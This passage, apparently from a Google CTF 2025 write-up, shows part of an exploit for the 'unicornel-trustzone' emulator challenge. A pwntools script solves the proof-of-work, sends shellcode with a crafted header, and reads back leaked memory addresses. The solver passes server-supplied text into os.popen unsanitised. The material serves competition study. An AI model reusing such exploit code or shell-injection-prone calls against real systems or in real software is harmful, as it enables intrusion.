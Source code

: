 ```python
        /* Print for debugging purposes */
        mov rbx, r11
        mov rax, 0x2
        int 0x80
        mov rbx, r10
        mov rax, 0x2
        int 0x80
    leak_pie_rwx_end:
    password:
        .ascii "sup3r_s3cure_sj\0"
    memprot_x86_64:
        .ascii "memprot_x86_64\0"''')

p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),          
    b'\0' * 3 * 16,              
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)
p.recvuntil('pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'{hex(leaked_buf_addr) = }')
leaked_pie_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_pie_base) = }')
leaked_rwx_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_rwx_base) = }')
```
{{ img(id="/writeups/GoogleCTF2025/unicornel-trustzone/leaked.png", alt="Alt Text", class="textCenter") }}

